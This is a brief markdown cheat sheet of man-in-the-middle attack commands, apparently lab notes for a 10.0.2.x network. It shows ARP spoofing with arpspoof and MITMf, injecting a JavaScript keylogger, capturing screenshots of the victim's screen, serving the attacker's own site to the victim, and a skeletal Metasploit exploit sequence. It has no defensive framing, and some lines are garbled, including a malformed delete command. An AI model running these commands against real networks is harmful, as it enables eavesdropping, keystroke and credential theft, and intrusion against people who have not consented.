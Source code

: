 ### Man in the Middle Attack

```arpspoof -i eth0 -t 10.0.2.1 10.0.2.4```

M�TMF

```mitmf --arp --spoof --gateway 10.0.2.4 --targets 10.0.2.1 -i eth0 ```

- **if it gives an error:**  ```rm - f /usr/share/mitmf/plugins/filepwn.py```

### Check Attack

```arp -a```

### Showing Our Own Site on the Other PC

```
leafpad /etc/mitmf/mitmf.conf
apache2 start // service apache2 start
```

### Getting SS on other PC

```mitmf --arp --spoof --gateway 10.0.2.4 --targets 10.0.2.1 -i eth0 --screen```

### Seeing the Keys You Press

```mitmf --arp --spoof --gateway 10.0.2.4 --targets 10.0.2.1 -i eth0 --jskeylogger```

### MSF Console

```
msfconsole
use ...
show options
set RHOST 10.0.2.4
show options
exploit
```